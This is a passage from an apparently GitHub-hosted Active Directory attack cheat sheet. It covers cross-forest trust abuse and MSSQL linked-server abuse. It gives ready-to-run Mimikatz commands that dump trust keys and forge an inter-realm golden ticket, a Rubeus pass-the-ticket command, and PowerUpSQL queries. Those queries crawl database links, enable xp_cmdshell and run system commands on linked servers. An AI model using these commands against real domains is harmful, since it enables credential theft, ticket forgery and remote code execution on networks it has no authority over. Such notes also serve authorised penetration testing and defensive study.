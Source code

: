 :warning: The access we will have will be limited to what our DA account is configured to have on the other Forest!
  
Using Mimikatz:
```
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```
:exclamation: Tickets -> .kirbi format
  
Then Ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource!
  
Using Rubeus:
```
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

### Abuse MSSQL Servers

- Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
- Check Accessibility as current user: 
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
- Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
- Abusing SQL Database Links: \
*WUT IS DIS?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!*
     
Check for existing Database Links:
```
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose
     
#MSSQL Query:
select * from master..sysservers
```
Then we can use queries to enumerate other links from the linked Database:
```
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')
     
#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose
     
#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```
Query execution: 
```
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```
